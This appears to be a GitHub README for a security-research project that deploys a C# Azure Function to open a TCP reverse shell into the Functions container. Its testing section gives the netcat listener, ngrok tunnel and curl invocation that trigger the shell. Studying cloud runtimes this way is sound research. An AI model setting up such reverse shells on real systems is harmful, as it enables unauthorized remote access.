 # Puma Prey Cougar

Cougar is a C# function that can be deployed to the Azure to establish a TCP reverse shell for the purposes of introspecting the Azure Functions container runtime.

## Installing Prerequisites

* [.NET Core 3.1 SDK](https://dotnet.microsoft.com/download)
* [Azure CLI](https://github.com/Azure/azure-cli)
* [Terraform](https://learn.hashicorp.com/terraform/getting-started/install.html)

## Deploying the Function

### Native Deployment

Requires the Resource Group, Function App (.NET Core, Linux OS), App Service Plan, App Insights, and Storage Account to be created in US West.

```bash
func azure functionapp publish pumapreycougar
```

Then, enable the function identity to use an MSI account during execution.

### Terraform

NOTE: This needs work to deploy assets, etc.

```bash
cd src
dotnet publish
cd ../terraform
terraform init
export TF_VAR_UniqueString=$(uuidgen | cut -b 25-36 | awk '{print tolower($0)}') # Save this value for future sessions.
az login
terraform apply
```

* TODO: Upload cougar.png to the images blob.
* TODO: Needs to create an identity and attach the function to the service principal created.
* TODO: Grant read, container read to the blob created.

## Deploying Assets

Create some secrets and grant permissions to the function SA.

```
az keyvault secret set --vault-name pumaprey-cougar-vault  --name "cougar-database-user" --value "cougar_user"

az keyvault secret set --vault-name pumaprey-cougar-vault  --name "cougar-database-pass" --value "QnV0IHVuaWNvcm5zIGFwcGFyZW50bHkgZG8gZXhpc3Qu"

az keyvault set-policy --name pumaprey-cougar-vault -g pumaprey-cougar --object-id 0cbd41de-55c6-460d-b92b-837eddd0ea0d --secret-permissions get list
```

## Testing in Azure

Retrieve the API key in the Azure Portal by searching for "Function App", clicking on the new Function App resource, clicking "Manage", and clicking "Click to show" next to the default function key.

If you have [Netcat](http://netcat.sourceforge.net/) and [ngrok](https://ngrok.com/) installed, you can use this script:

```bash
script/cougar --url-id "cougar$TF_VAR_UniqueString" --api-key YOUR_API_KEY
```

Alternatively, you can do this manually by setting up a Netcat listener like so:

```bash
nc -l 4444
```

Then, to make your listener accessible from the public internet, consider using a service like ngrok:

```bash
ngrok tcp 4444
```

Finally, invoke your function, supplying your connection details and API key:

```bash
curl "https://cougar$TF_VAR_UniqueString.azurewebsites.net/api/Cougar?host=YOUR_PUBLICLY_ACCESSIBLE_HOST&port=YOUR_PORT_NUMBER&code=YOUR_API_KEY"
```

Your listener will now act as a reverse shell for the duration of the function invocation.

## Teardown

```bash
terraform destroy
```

## Running Locally

Install [Azure Functions Core Tools](https://docs.microsoft.com/en-us/azure/azure-functions/functions-run-local) and run the following:

```bash
cd src
dotnet restore
dotnet build
func start
```

## Testing Locally

```bash
curl 'http://localhost:7071/api/Cougar?host=YOUR_ACCESSIBLE_HOST&port=YOUR_PORT_NUMBER'
```

## Azure Function C# Template

```bash
func init Cougar --csharp --dotnet
func new --template "HTTP trigger" --name GetCougar
```
